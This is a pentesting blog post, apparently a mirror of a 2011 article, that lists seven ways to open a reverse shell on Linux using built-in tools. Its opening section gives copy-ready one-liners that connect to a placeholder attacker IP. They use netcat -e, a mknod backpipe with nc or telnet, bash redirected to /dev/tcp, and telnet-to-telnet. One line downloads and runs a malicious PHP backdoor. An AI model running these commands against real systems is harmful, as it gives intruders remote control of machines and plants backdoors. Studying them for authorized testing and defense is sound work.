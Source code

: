      
# 7 Linux Shells Using Built-in Tools
From: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

# BLUF:
` #1 `
```bash
nc <attacker_ip> <port> -e /bin/bash
```
` #2`
```bash
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```
` #3`
```bash
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```
` #4`
```bash
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```
` #5`
```bash
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```
` #7`
```bash
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```


There are many distributions of linux, and they all do things a little different regarding default security and built-in tool sets. Which means when engaging these different flavors during a pentest, what works against one linux target to get an interactive shell, may not work against another. Well, not to worry my friends, there are many techniques for spawning shells, specifically reverse shells, from linux, and one or more of these techniques is bound to be available no matter which distro you're looking at.

The scenario is this: 
- You have the ability to run a simple command, or cause a user to run a simple command, on the target system. Whether it be via a Remote Command Execution vulnerability in a website, or some sort of php injected XSS which causes a privileged user to run commands on the target system. There are many instances of this scenario. Starting from the easiest and most common, here are some of the techniques which can be used to gain reverse shell on the target system.

## 1. netcat
|Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.|
|----|
|![image](https://github.com/user-attachments/assets/9978e790-f617-4758-9dcb-4ab9bd978ce9)|



## 2. netcat with GAPING_SECURITY_HOLE disabled:
|This is a little trick that [Ed Skoudis](https://twitter.com/#!/edskoudis) / https://twitter.com/#!/edskoudis tweeted about in November of last year, but I haven't seen it widely publicized. It is based on the common technique used to build netcat relays. When the `GAPING_SECURITY_HOLE` is disabled, which means you don't have access to the `'-e'` option of netcat, most people pass on using netcat and move to something else. Well this just isn't necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to `/bin/bash` back into netcat. Sounds confusing right? The following image should clear things up.|
|----|
|![image](https://github.com/user-attachments/assets/10f3e751-db5d-43ec-850a-0dc02c35e91c)|



## 3. netcat without netcat:
|I love "hacks" that use features of the operating system against itself. This is one of those "hacks". It takes the `/dev/tcp` socket programming feature and uses it to redirect `/bin/bash` to a remote system. It's not always available, but can be quite handy when it is.|
|----|
|![image](https://github.com/user-attachments/assets/96475cfa-67f2-4de0-a283-9a95651df9cb)|



## 4. netcat without netcat or /dev/tcp:
|`/dev/tcp` not available either? Just use telnet with technique #2.|
|----|
|![image](https://github.com/user-attachments/assets/d2fbbff1-7d58-45dd-8203-8961ffed0885)|



## 5. telnet-to-telnet:
|I'm not sure why you'd use this technique, but it's an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to `/bin/bash`, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.|
|----|
|![image](https://github.com/user-attachments/assets/d8024c0d-ac96-48f7-8bc2-007e1019e3ae)|



## 6. RCE shell:
|On this one I'm cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the `'<rce>'` tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.|
|----|
|![image](https://github.com/user-attachments/assets/3846cf59-7736-4ecb-9744-79f2bca4d624)|



#7. PHP reverse shell via interactive console:
|The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.|
|----|
|![image](https://github.com/user-attachments/assets/ddb84cdc-a397-4aa8-8dab-d876daa3c0e8)|



I want to end this post by stating that I am not the originator of techniques #1, 2, 3, 5, or 7. The majority of these techniques were learned in Ed Skoudis' amazing Security 504 and 560 classes available through SANS. Technique #4 is something I've never seen but stumbled across as I was conducting the demos for this post, so I'll take credit. Obviously, anyone can do #6, and there are plugins for various automated web app testing software packages that do, but I built my script from the ground up and tailored it to preference. If you know of any additional methods that may be helpful to the pentesting community, please leave in the comments below. Without sharing, we all fail. Thanks, and enjoy!
 
© 2024 Tim Tomes
